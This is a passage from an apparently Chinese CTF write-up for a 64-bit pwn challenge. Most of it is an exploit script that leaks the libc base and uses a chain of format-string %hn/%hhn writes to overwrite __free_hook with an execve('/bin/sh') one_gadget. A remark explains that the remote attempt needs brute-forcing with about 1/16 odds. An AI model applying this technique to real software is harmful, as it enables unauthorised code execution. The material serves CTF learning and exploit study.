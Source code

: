 ```plain
leak('libcbase',libcbase)
og = libcbase + 0x4527a
free_hook = libc.sym["__free_hook"] + libcbase
leak('og',og)
leak('free_hook',free_hook)
free = free_hook//0x100000000
leak('free',free)
free1 = free_hook//0x10000000000
'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

num = 72 #0x48
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
itr()
```

打远程时，29位偏移地址，最后一位一定是8，所以只需要爆破倒数第2位就行，所以有1/16的概率能够打出来

# 2023年DASCTF 2023六月挑战赛｜二进制专项 fooooood (64位)

## ida

[![](assets/1701612457-c6335bb3137617d233cfe0a334f78026.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215811-fd98316e-11cd-1.png)
